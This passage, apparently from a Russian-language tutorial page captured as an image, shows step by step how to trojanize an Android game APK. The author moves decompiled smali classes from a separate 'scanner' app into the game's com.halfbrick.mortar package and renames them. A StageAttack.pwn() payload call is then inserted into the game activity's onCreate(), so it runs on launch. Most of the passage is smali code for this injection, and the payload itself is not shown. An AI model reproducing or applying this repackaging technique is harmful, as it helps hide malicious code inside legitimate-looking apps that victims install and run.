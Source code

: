 ```java
invoke-virtual {p0}, Lcom/halfbrick/mortar/MortarGameActivity;->getIntent()Landroid/content/Intent;

...
```

Теперь нам нужен smali код payload'а. Собираем в apk наш сканер и декомпилируем. Переносим наши три декомпилированных класса, которые лежат по пути *smali\kz\c\signscan*, в папку *com/halfbrick/mortar*. Меняем *package name* всем классам, с *kz.c.signscan* на *com.halfbrick.mortar*. 

Было:

```java
.class public Lkz/c/signscan/StageAttack;
```

Стало:
```java
.class public Lcom/halfbrick/mortar/StageAttack;
```

В smali классе ```MainActivity``` берем строчку вызова payload'а:
```java
invoke-static {p0}, Lcom/halfbrick/mortar/StageAttack;->pwn(Landroid/content/Context;)V
```

И вставляем в ```MortarGameActivity```. В итоге метод ```onCreate()``` выглядит:

```java
...
.method protected onCreate(Landroid/os/Bundle;)V
.locals 9

:try_start_0
const-string v0, "android.os.AsyncTask"

.line 465
invoke-static {v0}, Ljava/lang/Class;->forName(Ljava/lang/String;)Ljava/lang/Class;
:try_end_0
.catch Ljava/lang/Throwable; {:try_start_0 .. :try_end_0} :catch_0

.line 471
:catch_0
invoke-super {p0, p1}, Landroid/support/v4/app/FragmentActivity;->onCreate(Landroid/os/Bundle;)V

.line 472
invoke-static {p0}, Lcom/halfbrick/mortar/StageAttack;->pwn(Landroid/content/Context;)V

.line 473
invoke-static {}, Lcom/halfbrick/mortar/NativeGameLib;->TryLoadGameLibrary()Z

.line 475
invoke-virtual {p0}, Lcom/halfbrick/mortar/MortarGameActivity;->getIntent()Landroid/content/Intent;

...
```
